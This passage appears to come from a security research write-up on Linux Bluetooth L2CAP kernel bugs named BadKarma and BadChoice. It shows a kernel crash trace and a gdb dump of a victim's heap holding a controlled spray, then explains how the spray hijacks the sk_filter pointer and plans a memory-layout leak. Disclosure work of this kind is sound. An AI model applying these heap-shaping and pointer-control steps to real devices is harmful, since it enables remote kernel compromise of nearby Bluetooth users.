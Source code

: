 ```
[   58.881780] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   58.881785] CR2: 000055f861e4bd20 CR3: 000000024c80a001 CR4: 00000000003606e0
[   58.881790] Call Trace:
[   58.881869]  ? __l2cap_chan_add+0x88/0x1c0 [bluetooth]
[   58.881938]  l2cap_data_rcv+0x351/0x510 [bluetooth]
[   58.881995]  l2cap_data_channel+0x29f/0x470 [bluetooth]
[   58.882054]  l2cap_recv_frame+0xe5/0x300 [bluetooth]
[   58.882067]  ? __switch_to_asm+0x40/0x70
[   58.882124]  l2cap_recv_acldata+0x2d2/0x2e0 [bluetooth]
[   58.882174]  hci_rx_work+0x186/0x360 [bluetooth]
[   58.882187]  process_one_work+0x1eb/0x3b0
[   58.882197]  worker_thread+0x4d/0x400
[   58.882207]  kthread+0x104/0x140
[   58.882215]  ? process_one_work+0x3b0/0x3b0
[   58.882223]  ? kthread_park+0x90/0x90
[   58.882233]  ret_from_fork+0x35/0x40
```

Inspecting the memory address at RDI of the victim's machine, we can see:

```bash
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff96da38f70300
0xffff96da38f70300:	0xffff96da601e7d00	0xffffffffc0d38760
0xffff96da38f70310:	0xffff96da60de2600	0xffff96da61c13400
0xffff96da38f70320:	0x0000000000000000	0x0000000000000001
0xffff96da38f70330:	0x0000000000000000	0x0000000000000000
0xffff96da38f70340:	0xffff96da38f70340	0xffff96da38f70340
0xffff96da38f70350:	0x0000000000000000	0x0000000000000000
0xffff96da38f70360:	0xffff96da38f70360	0xffff96da38f70360
0xffff96da38f70370:	0x0000000000000000	0x0000000000000000
0xffff96da38f70380:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70390:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703a0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703b0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703c0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703d0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703e0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703f0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70400:	0x4141414141414141	0x4242424242424242
0xffff96da38f70410:	0x4343434343434343	0x4444444444444444
0xffff96da38f70420:	0x4545454545454545	0x4646464646464646
0xffff96da38f70430:	0x4747474747474747	0x4848484848484848
```

The value at `0xffff96da38f70410` shows that `sk_filter()` indeed tried to dereference the pointer at offset 0x10 of our spray, which, from the perspective of `struct amp_mgr`, is at offset 0x110. Bingo!

### Leaking the Memory Layout

Now we have a way to shape the heap and prepare it for the _BadKarma_ attack, and as such, have full control over the `sk_filter` pointer. The question is, where shall we point it to? In order to make that primitive useful, we must point it to a memory address whose content we can control. That is where the _BadChoice_ vulnerability comes into play. This vulnerability has the potential to disclose the memory layout and aid us in achieving the goal of controlling a memory block whose address we also know.
